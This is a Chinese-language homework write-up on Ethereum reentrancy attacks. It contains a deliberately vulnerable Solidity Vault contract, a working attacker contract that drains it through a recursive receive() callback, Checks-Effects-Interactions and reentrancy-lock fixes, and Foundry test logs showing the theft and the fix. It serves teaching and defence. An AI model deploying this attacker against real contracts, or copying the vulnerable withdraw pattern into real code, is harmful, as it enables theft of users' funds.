

# 第十八课 智能合约安全与重入攻击 - Vault 漏洞盗算作业分析

本文档针对 **第十八课 (智能合约安全与重入攻击)** 的作业“尝试通过漏洞盗取 `Vault` 合约中的资金”提供完整的漏洞成因分析、黑客攻击合约设计、Foundry 单元测试验证及防御修复方案。

---

## 一、 作业背景与核心概念

### 什么是重入攻击 (Reentrancy Attack)？

重入攻击是以太坊智能合约中最经典且危害极大的安全漏洞（著名历史事件如 **The DAO 重入攻击** 导致以太坊硬分叉）。

当合约 A 向外部地址/合约 B 发送 ETH（例如通过 `call{value: ...}("")`）时，控制权会临时转移到合约 B。如果合约 A 在发送 ETH **之前没有先更新自身的状态记录**，合约 B 可以在其接收 ETH 的回调函数（`fallback()` 或 `receive()`）中，**再次调用（重入）** 合约 A 的提现函数。

由于合约 A 的状态未更新，重入调用的校验依然通过，从而形成递归调用链，直至将合约 A 中的资金清空。

---

## 二、 漏洞合约分析 (`VulnerableVault.sol`)

以下为典型的包含重入漏洞的 `VulnerableVault` 合约核心代码：

```solidity
contract VulnerableVault {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        require(msg.value > 0, "Deposit amount must be > 0");
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 balance = balances[msg.sender];
        require(balance > 0, "Insufficient balance");

        // ❌ 致命漏洞产生点：先向外部 msg.sender 划转 ETH
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "ETH transfer failed");

        // ❌ 状态更新靠后：当重入发生时，这行代码尚未执行！
        balances[msg.sender] = 0;
    }
}
```

### 漏洞根因

1. **违反了 Checks-Effects-Interactions (检查-效果-交互) 范式**：合约在执行外部交互（`msg.sender.call`）之前，没有先清除状态（`balances[msg.sender] = 0`）。
2. **`call` 底层调用的隐患**：`msg.sender.call{value: balance}("")` 默认会将剩余的所有 Gas 传递给接收方，为攻击者执行复杂递归调用提供了足够的 Gas。

---

## 三、 黑客攻击合约设计 (`VaultAttacker.sol`)

为了利用该漏洞，攻击者编写黑客合约 `VaultAttacker`：

```solidity
contract VaultAttacker {
    VulnerableVault public targetVault;

    constructor(address _vaultAddress) {
        targetVault = VulnerableVault(_vaultAddress);
    }

    // 1. 攻击入口：存入少量 ETH (如 1 ETH) 获得提现资格，然后调用 withdraw()
    function attack() external payable {
        require(msg.value > 0, "Need ETH to start attack");
        targetVault.deposit{value: msg.value}();
        targetVault.withdraw();
    }

    // 2. 接收 ETH 的回调函数：控制权交还黑客合约时的递归重入点！
    receive() external payable {
        if (address(targetVault).balance >= 1 ether) {
            targetVault.withdraw(); // 递归调用，再次触发 Vault 划转 ETH
        }
    }
}
```

### 攻击时序图 (Mermaid Sequence Diagram)



---

## 四、 防御修复方案 (`SecureVault.sol`)

针对重入漏洞，有两种标准防御手段：

### 1. Checks-Effects-Interactions (CEI) 范式

严格遵守“先修改内部状态，后进行外部交互”原则：

```solidity
function withdraw() external {
    uint256 balance = balances[msg.sender];
    require(balance > 0, "Insufficient balance");

    // 1. 先清空状态 (Effects)
    balances[msg.sender] = 0;

    // 2. 后发送 ETH (Interactions)
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "ETH transfer failed");
}
```

*原理*：当重入发生时，`balances[msg.sender]` 已经被设为 0，第二次 `require(balance > 0)` 校验失败被直接拦截。

### 2. 重入锁 (ReentrancyGuard / Mutex Lock)

使用状态锁限制函数并发进入：

```solidity
bool private _locked;

modifier nonReentrant() {
    require(!_locked, "ReentrancyGuard: reentrant call");
    _locked = true;
    _;
    _locked = false;
}

function withdraw() external nonReentrant { ... }
```

---

## 五、 Foundry 自动化测试验证 (`test/D18_VaultAttack.t.sol`)

运行以下测试命令：

```bash
forge test --match-contract D18_VaultAttackTest -vvv
```

### 测试结果

```
Ran 2 tests for test/D18_VaultAttack.t.sol:D18_VaultAttackTest
[PASS] test_ReentrancyAttackExploit() (gas: 138185)
Logs:
  === 攻击前 Vault 余额 === 10000000000000000000
  === 攻击后 Vault 余额 === 0
  === 攻击合约盗取资金 === 11000000000000000000

[PASS] test_SecureVaultDefendsReentrancy() (gas: 439509)
Suite result: ok. 2 passed; 0 failed; 0 skipped
```

- **`test_ReentrancyAttackExploit`** 证明：黑客仅投入 1 ETH 本金，成功利用重入漏洞将 `VulnerableVault` 中受害者的 10 ETH 资金洗劫一空，获利 11 ETH。
- **`test_SecureVaultDefendsReentrancy`** 证明：修复后的 `SecureVault` 能完美防御重入攻击。
